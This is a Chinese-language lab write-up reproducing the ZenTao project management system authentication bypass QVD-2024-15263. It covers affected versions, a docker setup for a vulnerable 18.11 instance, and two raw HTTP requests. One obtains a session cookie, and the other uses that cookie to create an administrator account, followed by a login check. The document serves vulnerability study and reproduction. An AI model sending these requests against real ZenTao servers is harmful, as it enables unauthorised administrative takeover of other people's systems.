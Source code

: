 # 禅道项目管理系统 身份验证漏洞QVD-2024-15263

​	ZenTaoPMS（ZenTao Project Management System），中文名为禅道项目管理软件。ZenTaoPMS是易软天创公司为了解决众多企业在管理过程中出现的混乱，无序的现象，开发出来的一套项目管理软件。它集产品管理、项目管理、测试管理于一身，同时包含事务管理、组织管理诸多功能，是中小型企业项目管理的首选工具。ZenTaoPMS基于自主研发的PHP开发框架---禅道PHP框架开发而成。通过这套框架，企业或者第三方的开发者可以非常方便、灵活的对禅道进行功能的修改或者扩展。

​	2024年4月，互联网披露禅道系统存在身份认证绕过的漏洞情报。经分析，确认该漏洞利用简单，并可能在绕过权限后利用后台其他漏洞实现 ...

官网地址：https://www.zentao.net/

源码下载：https://dl.zentao.net/zentao/18.11/ZenTaoPMS-18.11-php7.0.tar.xz

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/138424581
- https://github.com/easysoft/zentaopms/commit/695055c6b1d2e6a8c944bdbc38308c06820c40ce

**影响版本**

> v16.x ≤ zentao < v18.12 （开源版）
>
> v6.x ≤ zentao < v8.12 （企业版）
>
> v3.x ≤ zentao < v4.12 （旗舰版）



## 漏洞环境

执行如下命令启动一个zentaopms-v18.11-web：

```shell
docker run -d -p 80:80 -e MYSQL_INTERNAL=true hub.zentao.net/app/zentao:18.11
```

环境启动后，访问`http://your-ip:80`即可跳转到zentaopms安装向导页面

![image-20240504111636733](./1.png)

点下一步

![image-20240504111805715](./2.png)

设置账号

![image-20240504111932945](./3.png)

完成

![image-20240504112155372](./4.png)

## 漏洞复现

1, 获取系统返回的cookie值

```
GET /api.php?m=testcase&f=savexmindimport&HTTP_X_REQUESTED_WITH=XMLHttpRequest&productID=hxsjoqkyiveutbzwlvjv&branch=rbpcotcxawqpqhvhqfpp HTTP/1.1
Host: 192.168.160.128
Content-Length: 2
```

![image-20240504112526008](./5.png)

2, 利用这个cookie，发送请求创建管理员账号

```
POST /api.php/v1/users HTTP/1.1
Cookie: zentaosid=c7acc388fd50eafc2aff8b556afea056;
Host: 192.168.160.128

{"account": "VulneraLab", "password": "VulneraLab", "realname": "VulneraLab", "role": "top", "group": "1"}
```

![image-20240504112827553](./6.png)

返回403表示成功

3，验证登录账号

输入用户名密码 VulneraLab：VulneraLab登录系统

![image-20240504113006806](./7.png)